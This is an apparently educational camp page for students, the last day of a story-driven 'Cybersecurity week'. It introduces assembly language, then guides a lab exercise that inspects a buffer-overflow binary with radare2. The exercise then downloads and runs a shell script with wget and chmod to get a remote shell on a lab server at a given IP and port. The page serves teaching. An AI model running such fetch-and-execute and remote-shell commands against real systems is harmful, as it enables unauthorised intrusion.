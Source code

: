 # Welcome to the Final day of Cybersecurity week!

![My guy typing](https://i.insider.com/515583f1eab8ea9a5d00001b?width=1100&format=jpeg&auto=webp)

# Endgame

<div style="margin:auto; display:flex; flex-direction:column; height:500px; max-width:500px">
    <iframe border="0" src="https://crosswordlabs.com/embed/2020-06-24-165?clue_height=30" style="flex:1; width:100%; padding:5px 0px 0 5px; border:3px solid black; "></iframe>
    <a target="_blank" style="align-self:center; font-size:12px; color:black; padding-top:10px; text-decoration:none;text-align:center" href="https://crosswordlabs.com">Crossword Puzzle Maker</a>
</div>

<br> 

Today is the last day of Cybersecurity week. Alice and Bob are pleased with how far you have come in your learnings
and how you have helped the Cyber House in their epic battle against the L33k3rs.

Yesterday you helped the Cyber House achieve a major accomplishment. Alice and Bob, thanks to you, were able to obtain 
information on all member of the L33k3rs. As we speak, Cyber House agents are tracking these people down to put
an end to their l33king schemes

![L33k3rs info](https://udel.codes/cyber4/phishing/L33k3r_Database.png)'

Our battle against the L33k3rs is coming to a close, however there is still one thing left to do.

### The Nano Bots!

We still have to shut down the nano bots. The nano bots are still in the Global Dessert Vault sending recipes to the L33k3rs. In order to stop them, we need being to understand a very important programming language. **Assembly Language.**

# Assembly Language

![Assembly](https://y31uv4ra1.vo.llnwd.net/content/wp/tweaklibrary_com/uploads/2017/07/49561-assembly-language-1280x720.jpg)

Assembly Language is the original true low-level computer language with pure instructions that directly translate into machine code.

*To explain:*

- There are languages that are considered **High-Level Programming Langauges**, these languages include Python, Java, Javascript, Scratch, ect. These programming languages are then broken down to a **Lower-level Programing Language**

- **Low-Level Programming Languages**, like Assembly and Machine Code, communicate more directly with the computer. Meaning they are more closely related to the computer's core language, like binary. (1's and 0's)

*So why have High-Level Languages if they are just turned into a Low-Level Language?*

- This is because Low-Level Languages are difficult to use and harder to understand then High-Level Languages. High-Level Languages are much more easier to read, write, and maintain. If you think coding in general is hard, Assembly is that much harder. 

### Why do we need to know this?

We need to know what assembly does because it is going to help us take down the L33k3rs!

Alice and Bob need us to take control of a L33k3r server so we can destroy it from the inside out! This is called pwning. So we will be compromising another server to gain access, almost like how we used the File Upload Exploit to gain access to the Global Dessert Vault!

---

# Infiltrat the L33k3rs!

So, let go to the terminal we have been using the past couple of days:  <a href="http://157.230.203.138/term" target="_blank">TERMINAL</a>

First begin by listing all the files in the home directory
- `ls`

Next we will move into the secsoft directory
- `cd secsoft`

Now let us list the files in this directory
- `ls`

Let's read the bufover-2.c file. This is a c file contiang c code. This will generate 
- `cat bufover-2.c`

Now we will read the bufover-2 file. This file is the executable for the file we just read. Meaning it will run bufover-2.c.
- `cat bufover-2`

Let's run the executable
- `r2 -Ad bufover-2`

Now that our process is running, lets enter this for the input.
- `Vpp`

What you are seeing is the assembly code for the bufover-2.c file. You can navigate through the code by using the "j" and "k" keys.
To Exit out of this view, press q
- `q`

The program is asking us a few questions, lets answer them by pressing the enter key twice.
- `enter`
- `enter`

Next we are going to download some code made by Alice and Bob that will help us infiltrate the L33k3r server. 

The code below is a script we will run which will create a completely new Bash Terminal that will have control over their server!
- `wget https://gist.githubusercontent.com/AndyNovo/ce5ff5a1d4376343787c31332578e831/raw/f13ab425f4f338323eb7c1e8652aa04c7ad0ecb4/bash32.sh`

The command below will give the file we just downloaded exectuable permission.
- `chmod +x bash32.ch`

Now let's run out script to infiltrate the L33k3r Server!
- `./bash32.sh bufover-2 167.172.231.203 8888`

---

# We're In!

![Access Granted](https://ak.picdn.net/shutterstock/videos/33710788/thumb/5.jpg)

You have now sucessfully infiltrated the L33k3r server. Now look around using the terminal to try and find anything we can use to shutdown their system or to shut down the nanobots!

### Food for thought?

Maybe look for **kill codes**?
- `killcodes.txt`

### Once you find the Kill Code put it into <a href="http://learnification.fun" target="_blank">Learnification.fun!</a> 

# You did it!

![congrats](https://clipartart.com/images/cogratulations-clipart-1.png)


### We have successfully taken down the l33k3rs!

Alice and Bob are so proud! You have been a great help to the Cyber House. Yet there are more things for you to learn in your quest to become an agent in the Cyber House!

Go to this link here to begin your next exercise:

- <a href="http://udel.codes/cyber4/phishing/funwithphish" target="_blank">Phishing</a> 

<br>

# <a href="http://udel.codes/cyber4/victory" target="_blank">CONCLUSION</a> 


